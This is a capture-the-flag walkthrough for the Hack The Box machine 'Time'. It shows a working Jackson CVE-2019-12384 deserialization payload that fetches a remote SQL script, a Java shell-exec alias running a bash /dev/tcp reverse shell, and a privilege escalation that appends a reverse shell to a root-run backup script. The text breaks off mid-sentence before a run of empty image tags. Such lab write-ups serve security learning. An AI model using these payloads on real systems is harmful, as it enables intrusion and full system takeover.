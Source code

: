 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell [(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))].
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..**

![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.

> * Now i'm Pericles user.

![](https://i.ibb.co/XjnTN1D/image.png)

> **I spent a day enumerating this box and i lost alot of Time as its name, But no thing useful So i decided the next day to use LinPEAS, it's a Tool to automate the enumeration process.**


![](https://i.ibb.co/fpZ92df/image.png)


![](https://i.ibb.co/hfJzCL3/image.png)

**I found that intersting file to check ``` /usr/bin/timer_backup.sh ```**

```bash
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
> **It's create a zip archive from /var/www/html and moving it to /root/backup.zip**

> **So we have two ways to solve this situation, First add our public key to the authorized keys for root in Time Box and connect via ssh, but NO TIME so i choosed the second choice by getting reverse shell via bash shell ```echo "bash -i >& /dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1" >>/usr/bin/timer_backup.sh.**

```bash
pericles@time:/usr/bin$ echo "bash -i >& /dev/tcp/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
<p/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
```
**Till Now it's OK and you will get reverse shell to your listner, But for ONLY 5 seconds i think and that is the idea of TIME box, So you have to be very fast to cat your 



![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
![]()
